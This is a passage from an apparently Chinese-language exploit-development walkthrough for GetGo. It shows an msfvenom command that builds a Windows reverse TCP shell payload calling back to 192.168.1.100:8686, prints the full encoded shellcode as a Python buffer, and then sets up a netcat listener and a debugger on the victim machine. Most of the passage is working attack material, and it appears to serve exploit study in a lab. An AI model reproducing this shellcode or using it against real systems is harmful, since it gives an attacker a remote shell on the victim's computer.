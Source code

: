 ```shell
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=8686 -b "\x00" -f python
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
buf =  ""
buf += "\xd9\xcf\xd9\x74\x24\xf4\xba\xa3\xfc\xc8\xfe\x5e\x2b"
buf += "\xc9\xb1\x52\x83\xc6\x04\x31\x56\x13\x03\xf5\xef\x2a"
buf += "\x0b\x05\xe7\x29\xf4\xf5\xf8\x4d\x7c\x10\xc9\x4d\x1a"
buf += "\x51\x7a\x7e\x68\x37\x77\xf5\x3c\xa3\x0c\x7b\xe9\xc4"
buf += "\xa5\x36\xcf\xeb\x36\x6a\x33\x6a\xb5\x71\x60\x4c\x84"
buf += "\xb9\x75\x8d\xc1\xa4\x74\xdf\x9a\xa3\x2b\xcf\xaf\xfe"
buf += "\xf7\x64\xe3\xef\x7f\x99\xb4\x0e\x51\x0c\xce\x48\x71"
buf += "\xaf\x03\xe1\x38\xb7\x40\xcc\xf3\x4c\xb2\xba\x05\x84"
buf += "\x8a\x43\xa9\xe9\x22\xb6\xb3\x2e\x84\x29\xc6\x46\xf6"
buf += "\xd4\xd1\x9d\x84\x02\x57\x05\x2e\xc0\xcf\xe1\xce\x05"
buf += "\x89\x62\xdc\xe2\xdd\x2c\xc1\xf5\x32\x47\xfd\x7e\xb5"
buf += "\x87\x77\xc4\x92\x03\xd3\x9e\xbb\x12\xb9\x71\xc3\x44"
buf += "\x62\x2d\x61\x0f\x8f\x3a\x18\x52\xd8\x8f\x11\x6c\x18"
buf += "\x98\x22\x1f\x2a\x07\x99\xb7\x06\xc0\x07\x40\x68\xfb"
buf += "\xf0\xde\x97\x04\x01\xf7\x53\x50\x51\x6f\x75\xd9\x3a"
buf += "\x6f\x7a\x0c\xec\x3f\xd4\xff\x4d\xef\x94\xaf\x25\xe5"
buf += "\x1a\x8f\x56\x06\xf1\xb8\xfd\xfd\x92\x06\xa9\xfc\x06"
buf += "\xef\xa8\xfe\xe7\x01\x25\x18\x8d\xcd\x60\xb3\x3a\x77"
buf += "\x29\x4f\xda\x78\xe7\x2a\xdc\xf3\x04\xcb\x93\xf3\x61"
buf += "\xdf\x44\xf4\x3f\xbd\xc3\x0b\xea\xa9\x88\x9e\x71\x29"
buf += "\xc6\x82\x2d\x7e\x8f\x75\x24\xea\x3d\x2f\x9e\x08\xbc"
buf += "\xa9\xd9\x88\x1b\x0a\xe7\x11\xe9\x36\xc3\x01\x37\xb6"
buf += "\x4f\x75\xe7\xe1\x19\x23\x41\x58\xe8\x9d\x1b\x37\xa2"
buf += "\x49\xdd\x7b\x75\x0f\xe2\x51\x03\xef\x53\x0c\x52\x10"
buf += "\x5b\xd8\x52\x69\x81\x78\x9c\xa0\x01\x88\xd7\xe8\x20"
buf += "\x01\xbe\x79\x71\x4c\x41\x54\xb6\x69\xc2\x5c\x47\x8e"
buf += "\xda\x15\x42\xca\x5c\xc6\x3e\x43\x09\xe8\xed\x64\x18"
```

## 调试exp

victim上nc在8686端口等待：

```
D:\Documents and Settings\Desktop>nc -lvv -p 8686
listening on [any] 8686 ...
```

在victim上安装GetGo并运行，使用Immunity Debugger附加：

![](/images/180703_1.png)
